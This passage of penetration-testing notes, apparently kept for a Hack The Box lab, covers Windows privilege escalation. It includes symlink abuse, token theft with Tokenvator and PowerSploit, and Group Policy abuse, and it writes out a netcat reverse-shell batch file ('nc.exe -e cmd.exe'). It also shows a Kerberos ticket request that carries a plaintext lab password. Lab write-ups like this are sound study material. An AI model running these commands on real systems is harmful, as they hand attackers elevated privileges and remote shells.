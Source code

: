 - SeCreateSymbolicLinkPrivilege
建立 symlink 讓高權服務將檔案寫入控制的位置
    - [CreateSymlink.exe](https://github.com/googleprojectzero/symboliclink-testing-tools): `/home/chw/Desktop/upload_tools/CreateSymlink.exe`
        - `CreateSymlink.exe C:\Temp\log.txt C:\Windows\System32\services.exe`
        - `echo @echo off > C:\Users\chw\Desktop\evil.bat`
        - `echo C:\users\chw\desktop\nc.exe -e cmd.exe {IP} {Port} >> C:\Users\chw\Desktop\evil.bat`
        
- SeDelegateSessionUserImpersonatePrivilege
類似 SeImpersonate，但限制在同一個 logon session (要有高權限使用者在同一個 session)
    - DSUI: [Tokenvator](https://github.com/0xbadjuju/Tokenvator) `/home/chw/Desktop/upload_tools/Tokenvator.exe`
        - `whoami /priv | findstr /i delegate` `query user`: 所在的 SESSIONNAME/ID
        - `gps -IncludeUserName | ? {$_.SessionId -eq (Get-Process -Id $PID).SessionId} |
  sort -desc WS | select -first 30 Name,Id,UserName,SessionId | ft -auto`\ 
  找一個 UserName 為 `.\Administrator/DOMAIN\Admin` 或 `NT AUTHORITY\SYSTEM` 的 PID
      - `Tokenvator.exe list`
      - `Tokenvator.exe steal_token -p <PID> -c "C:\Windows\System32\cmd.exe"`
      - [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) `/home/chw/Desktop/upload_tools/PowerSploit/Exfiltration/Invoke-TokenManipulation.ps1`
      - Windows
        ```
        Import-Module .\Invoke-TokenManipulation.ps1
        Invoke-TokenManipulation -ImpersonateUser -ProcessId <PID>
        Invoke-TokenManipulation -CreateProcess "C:\Windows\System32\cmd.exe"
        ```

### Group Policy Object (GPO) Abuse
- Group Policy Creator Owners

```
PS C:\Users\M.SchoolBus\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                            Attributes                             
                        
============================================ ================ ============================================== ===============================================================
...
frizz\Group Policy Creator Owners            Group            S-1-5-21-2386970044-1145388522-2932701813-520  Mandatory group, Enabled by default, Enabled group

PS C:\Users\M.SchoolBus\Desktop> New-GPO -Name chw | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes    

GpoId       : 0329b9b2-02c7-4796-a039-fb5123d758fb
DisplayName : chw
Enabled     : True
Enforced    : False
Target      : OU=Domain Controllers,DC=frizz,DC=htb
Order       : 3
```
![image](https://hackmd.io/_uploads/H197rJitlx.png)
(Kali 匯入 SharpGPOAbuse.exe)
```
┌──(chw㉿CHW)-[~/Desktop/upload_tools]
└─$ sudo ntpdate -u 10.10.11.60                                        
┌──(chw㉿CHW)-[~/Desktop/upload_tools]
└─$ impacket-getTGT frizz.htb/M.SchoolBus:'!suBcig@MehTed!R' -dc-ip 10.10.11.60
...
[*] Saving ticket in M.SchoolBus.ccache                                                        
```